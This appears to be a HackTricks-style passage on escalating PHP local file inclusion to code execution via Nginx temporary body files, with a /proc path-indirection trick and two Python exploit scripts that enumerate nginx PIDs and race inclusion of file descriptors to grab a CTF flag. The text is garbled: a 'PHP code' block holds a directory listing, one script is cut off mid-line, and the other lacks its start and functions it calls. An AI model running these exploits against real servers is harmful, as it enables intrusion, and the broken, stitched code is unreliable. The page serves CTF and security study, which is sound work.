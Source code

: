 # LFI2RCE via Nginx temp files

{{#include ../../banners/hacktricks-training.md}}

## Vulnerable configuration

[**Example from https://bierbaumer.net/security/php-lfi-with-nginx-assistance/**](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)

- PHP code:

```php

/dev/pts/0 lrwx------ 1 www-data www-data 64 Dec 25 23:56 1 -> /dev/pts/0 lrwx------ 1 www-data www-data 64 Dec 25 23:49 10 -> anon\_inode:\[eventfd] lrwx------ 1 www-data www-data 64 Dec 25 23:49 11 -> socket:\[27587] lrwx------ 1 www-data www-data 64 Dec 25 23:49 12 -> socket:\[27589] lrwx------ 1 www-data www-data 64 Dec 25 23:56 13 -> socket:\[44926] lrwx------ 1 www-data www-data 64 Dec 25 23:57 14 -> socket:\[44927] lrwx------ 1 www-data www-data 64 Dec 25 23:58 15 -> /var/lib/nginx/body/0000001368 (deleted) ... \`\`\` Note: One cannot directly include \`/proc/34/fd/15\` in this example as PHP's \`include\` function would resolve the path to \`/var/lib/nginx/body/0000001368 (deleted)\` which doesn't exist in in the filesystem. This minor restriction can luckily be bypassed by some indirection like: \`/proc/self/fd/34/../../../34/fd/15\` which will finally execute the content of the deleted \`/var/lib/nginx/body/0000001368\` file. ## Full Exploit \`\`\`python #!/usr/bin/env python3 import sys, threading, requests # exploit PHP local file inclusion (LFI) via nginx's client body buffering assistance # see https://bierbaumer.net/security/php-lfi-with-nginx-assistance/ for details URL = f'http://{sys.argv\[1]}:{sys.argv\[2]}/' # find nginx worker processes r = requests.get(URL, params={ 'file': '/proc/cpuinfo' }) cpus = r.text.count('processor') r = requests.get(URL, params={ 'file': '/proc/sys/kernel/pid\_max' }) pid\_max = int(r.text) print(f'\[\*] cpus: {cpus}; pid\_max: {pid\_max}') nginx\_workers = \[] for pid in range(pid\_max): r = requests.get(URL, params={ 'file': f'/proc/{pid}/cmdline' }) if b'nginx: worker process' in r.content: print(f'\[\*] nginx worker found: {pid}') nginx\_workers.append(pid) if len(nginx\_workers) >= cpus: break done = False # upload a big client body to force nginx to create a /var/lib/nginx/body/$X def uploader(): print('\[+] starting uploader') while not done: requests.get(URL, data=' //'

```

    requests_session.post(SERVER + "/?action=read&file=/bla", data=(payload + ("a" * (body_size - len(payload)))))

except:
pass

```

def send\_payload\_worker(requests\_session): while True: send\_payload(requests\_session)

def send\_payload\_multiprocess(requests\_session): # Use all CPUs to send the payload as request body for Nginx for \_ in range(multiprocessing.cpu\_count()): p = multiprocessing.Process(target=send\_payload\_worker, args=(requests\_session,)) p.start()

def generate\_random\_path\_prefix(nginx\_pids): # This method creates a path from random amount of ProcFS path components. A generated path will look like /proc/\<nginx pid 1>/cwd/proc/\<nginx pid 2>/root/proc/\<nginx pid 3>/root path = "" component\_num = random.randint(0, 10) for \_ in range(component\_num): pid = random.choice(nginx\_pids) if random.randint(0, 1) == 0: path += f"/proc/{pid}/cwd" else: path += f"/proc/{pid}/root" return path

def read\_file(requests\_session, nginx\_pid, fd, nginx\_pids): nginx\_pid\_list = list(nginx\_pids) while True: path = generate\_random\_path\_prefix(nginx\_pid\_list) path += f"/proc/{nginx\_pid}/fd/{fd}" try: d = requests\_session.get(SERVER + f"/?action=include\&file={path}").text except: continue # Flags are formatted as hxp{} if "hxp" in d: print("Found flag! ") print(d)

def read\_file\_worker(requests\_session, nginx\_pid, nginx\_pids): # Scan Nginx FDs between 10 - 45 in a loop. Since files and sockets keep closing - it's very common for the request body FD to open within this range for fd in range(10, 45): thread = threading.Thread(target = read\_file, args = (requests\_session, nginx\_pid, fd, nginx\_pids)) thread.start()

def read\_file\_multiprocess(requests\_session, nginx\_pids): for nginx\_pid in nginx\_pids: p = multiprocessing.Process(target=read\_file\_worker, args=(requests\_session, nginx\_pid, nginx\_pids)) p.start()

if **name** == "**main**": print('\[DEBUG] Creating requests session') requests\_session = create\_requests\_session() print('\[DEBUG] Getting Nginx pids') nginx\_pids = get\_nginx\_pids(requests\_session) print(f'\[DEBUG] Nginx pids: {nginx\_pids}') print('\[DEBUG] Starting payload sending') send\_payload\_multiprocess(requests\_session) print('\[DEBUG] Starting fd readers') read\_file\_multiprocess(requests\_session, nginx\_pids)

```

## Labs

- [https://bierbaumer.net/security/php-lfi-with-nginx-assistance/php-lfi-with-nginx-assistance.tar.xz](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/php-lfi-with-nginx-assistance.tar.xz)
- [https://2021.ctf.link/internal/challenge/ed0208cd-f91a-4260-912f-97733e8990fd/](https://2021.ctf.link/internal/challenge/ed0208cd-f91a-4260-912f-97733e8990fd/)
- [https://2021.ctf.link/internal/challenge/a67e2921-e09a-4bfa-8e7e-11c51ac5ee32/](https://2021.ctf.link/internal/challenge/a67e2921-e09a-4bfa-8e7e-11c51ac5ee32/)

## References

- [https://bierbaumer.net/security/php-lfi-with-nginx-assistance/](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)

{{#include ../../banners/hacktricks-training.md}}

```

```


